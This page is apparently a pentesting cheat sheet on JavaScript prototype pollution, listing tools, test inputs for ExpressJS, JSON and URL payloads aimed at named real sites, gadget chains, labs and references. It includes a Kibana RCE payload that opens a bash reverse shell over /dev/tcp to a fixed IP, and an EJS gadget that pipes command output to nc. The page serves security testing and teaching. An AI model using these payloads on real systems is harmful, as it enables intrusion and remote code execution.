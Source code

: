 ```yaml
---
layout: page
title: Prototype pollution
description: 
img:
importance: 3
category: hacking
img: assets/img/hacking/prototypePollution.png
toc:
    sidebar: left
---
```


> Prototype pollution is a type of vulnerability that occurs in JavaScript when properties of Object. Prototype are modified. This is particularly risky because JavaScript objects are dynamic and we can add properties to them at any time. Also, almost all objects in JavaScript inherit from Object.prototype, making it a potential attack vector.

## Summary

- [Tools](#tools)
- [Methodology](#methodology)
  - [Examples](#examples)
  - [Manual Testing](#manual-testing)
  - [Prototype Pollution via JSON Input](#prototype-pollution-via-json-input)
  - [Prototype Pollution in URL](#prototype-pollution-in-url)
  - [Prototype Pollution Payloads](#prototype-pollution-payloads)
  - [Prototype Pollution Gadgets](#prototype-pollution-gadgets)
- [Labs](#labs)
- [References](#references)

## Tools

- [yeswehack/pp-finder](https://github.com/yeswehack/pp-finder) - Help you find gadget for prototype pollution exploitation
- [yuske/silent-spring](https://github.com/yuske/silent-spring) - Prototype Pollution Leads to Remote Code Execution in Node.js
- [yuske/server-side-prototype-pollution](https://github.com/yuske/server-side-prototype-pollution) - Server-Side Prototype Pollution gadgets in Node.js core code and 3rd party NPM packages
- [BlackFan/client-side-prototype-pollution](https://github.com/BlackFan/client-side-prototype-pollution) - Prototype Pollution and useful Script Gadgets
- [portswigger/server-side-prototype-pollution](https://github.com/portswigger/server-side-prototype-pollution) - Burp Suite Extension detectiong Prototype Pollution vulnerabilities
- [msrkp/PPScan](https://github.com/msrkp/PPScan) - Client Side Prototype Pollution Scanner

## Methodology

In JavaScript, prototypes are what allow objects to inherit features from other objects. If an attacker is able to add or modify properties of `Object.prototype`, they can essentially affect all objects that inherit from that prototype, potentially leading to various kinds of security risks.

```js
var myDog = new Dog();
```

```js
// Points to the function "Dog"
myDog.constructor;
```

```js
// Points to the class definition of "Dog"
myDog.constructor.prototype;
myDog.__proto__;
myDog["__proto__"];
```

### Examples

- Imagine that an application uses an object to maintain configuration settings, like this:
  ```js
  let config = {
    isAdmin: false,
  };
  ```
- An attacker might be able to add an `isAdmin` property to `Object.prototype`, like this:
  ```js
  Object.prototype.isAdmin = true;
  ```

### Manual Testing

- ExpressJS: `{ "__proto__":{"parameterLimit":1}}` + 2 parameters in GET request, at least 1 must be reflected in the response.
- ExpressJS: `{ "__proto__":{"ignoreQueryPrefix":true}}` + `??foo=bar`
- ExpressJS: `{ "__proto__":{"allowDots":true}}` + `?foo.bar=baz`
- Change the padding of a JSON response: `{ "__proto__":{"json spaces":" "}}` + `{"foo":"bar"}`, the server should return `{"foo": "bar"}`
- Modify CORS header responses: `{ "__proto__":{"exposedHeaders":["foo"]}}`, the server should return the header `Access-Control-Expose-Headers`.
- Change the status code: `{ "__proto__":{"status":510}}`

### Prototype Pollution via JSON Input

You can access the prototype of any object via the magic property `__proto__`.
The `JSON.parse()` function in JavaScript is used to parse a JSON string and convert it into a JavaScript object. Typically it is a sink function where prototype pollution can happen.

```js
{
    "__proto__": {
        "evilProperty": "evilPayload"
    }
}
```

Asynchronous payload for NodeJS.

```js
{
  "__proto__": {
    "argv0":"node",
    "shell":"node",
    "NODE_OPTIONS":"--inspect=payload\"\".oastify\"\".com"
  }
}
```

Polluting the prototype via the `constructor` property instead.

```js
{
    "constructor": {
        "prototype": {
            "foo": "bar",
            "json spaces": 10
        }
    }
}
```

### Prototype Pollution in URL

Example of Prototype Pollution payloads found in the wild.

```ps1
https://victim.com/#a=b&__proto__[admin]=1
https://example.com/#__proto__[xxx]=alert(1)
http://server/servicedesk/customer/user/signup?__proto__.preventDefault.__proto__.handleObj.__proto__.delegateTarget=%3Cimg/src/onerror=alert(1)%3E
https://www.apple.com/shop/buy-watch/apple-watch?__proto__[src]=image&__proto__[onerror]=alert(1)
https://www.apple.com/shop/buy-watch/apple-watch?a[constructor][prototype]=image&a[constructor][prototype][onerror]=alert(1)
```

### Prototype Pollution Exploitation

Depending if the prototype pollution is executed client (CSPP) or server side (SSPP), the impact will vary.

- Remote Command Execution: [RCE in Kibana (CVE-2019-7609)](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/)
  ```js
  .es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//')
  .props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
  ```
- Remote Command Execution: [RCE using EJS gadgets](https://mizu.re/post/ejs-server-side-prototype-pollution-gadgets-to-rce)
  ```js
  {
      "__proto__": {
          "client": 1,
          "escapeFunction": "JSON.stringify; process.mainModule.require('child_process').exec('id | nc localhost 4444')"
      }
  }
  ```
- Reflected XSS: [Reflected XSS on www.hackerone.com via Wistia embed code - #986386](https://hackerone.com/reports/986386)
- Client-side bypass: [Prototype pollution – and bypassing client-side HTML sanitizers](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/)
- Denial of Service

### Prototype Pollution Payloads

```js
Object.__proto__["evilProperty"]="evilPayload"
Object.__proto__.evilProperty="evilPayload"
Object.constructor.prototype.evilProperty="evilPayload"
Object.constructor["prototype"]["evilProperty"]="evilPayload"
{"__proto__": {"evilProperty": "evilPayload"}}
{"__proto__.name":"test"}
x[__proto__][abaeead] = abaeead
x.__proto__.edcbcab = edcbcab
__proto__[eedffcb] = eedffcb
__proto__.baaebfc = baaebfc
?__proto__[test]=test
```

### Prototype Pollution Gadgets

A "gadget" in the context of vulnerabilities typically refers to a piece of code or functionality that can be exploited or leveraged during an attack. When we talk about a "prototype pollution gadget," we're referring to a specific code path, function, or feature of an application that is susceptible to or can be exploited through a prototype pollution attack.

Either create your own gadget using part of the source with [yeswehack/pp-finder](https://github.com/yeswehack/pp-finder), or try to use already discovered gadgets [yuske/server-side-prototype-pollution](https://github.com/yuske/server-side-prototype-pollution) / [BlackFan/client-side-prototype-pollution](https://github.com/BlackFan/client-side-prototype-pollution).

## Labs

- [YesWeHack Dojo - Prototype Pollution](https://dojo-yeswehack.com/XSS/Training/Prototype-Pollution)
- [PortSwigger - Prototype Pollution](https://portswigger.net/web-security/all-labs#prototype-pollution)

## References

- [A Pentester's Guide to Prototype Pollution Attacks - Harsh Bothra - January 2, 2023](https://www.cobalt.io/blog/a-pentesters-guide-to-prototype-pollution-attacks)
- [A tale of making internet pollution free - Exploiting Client-Side Prototype Pollution in the wild - s1r1us - September 28, 2021](https://blog.s1r1us.ninja/research/PP)
- [Detecting Server-Side Prototype Pollution - Daniel Thatcher - February 15, 2023](https://www.intruder.io/research/server-side-prototype-pollution)
- [Exploiting prototype pollution – RCE in Kibana (CVE-2019-7609) - Michał Bentkowski - October 30, 2019](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/)
- [Server Side Prototype Pollution: Blackbox Detection Without The DoS - Gareth Heyes - March 27, 2023](https://youtu.be/LD-KcuKM_0M)
- [NodeJS - \_\_proto\_\_ & prototype Pollution - HackTricks - July 19, 2024](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution)
- [Prototype Pollution - PortSwigger - November 10, 2022](https://portswigger.net/web-security/prototype-pollution)
- [Prototype pollution - Snyk - August 19, 2023](https://learn.snyk.io/lessons/prototype-pollution/javascript/)
- [Prototype pollution and bypassing client-side HTML sanitizers - Michał Bentkowski - August 18, 2020](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/)
- [Prototype Pollution and Where to Find Them - BitK & SakiiR - August 14, 2023](https://youtu.be/mwpH9DF_RDA)
- [Prototype Pollution Attacks in NodeJS - Olivier Arteau - May 16, 2018](https://github.com/HoLyVieR/prototype-pollution-nsec18/blob/master/paper/JavaScript_prototype_pollution_attack_in_NodeJS.pdf)
- [Prototype Pollution Attacks in NodeJS applications - Olivier Arteau - October 3, 2018](https://youtu.be/LUsiFV3dsK8)
- [Prototype Pollution Leads to RCE: Gadgets Everywhere - Mikhail Shcherbakov - September 29, 2023](https://youtu.be/v5dq80S1WF4)
- [Server side prototype pollution, how to detect and exploit - BitK - February 18, 2023](http://web.archive.org/web/20230218081534/https://blog.yeswehack.com/talent-development/server-side-prototype-pollution-how-to-detect-and-exploit/)
- [Server-side prototype pollution: Black-box detection without the DoS - Gareth Heyes - February 15, 2023](https://portswigger.net/research/server-side-prototype-pollution)

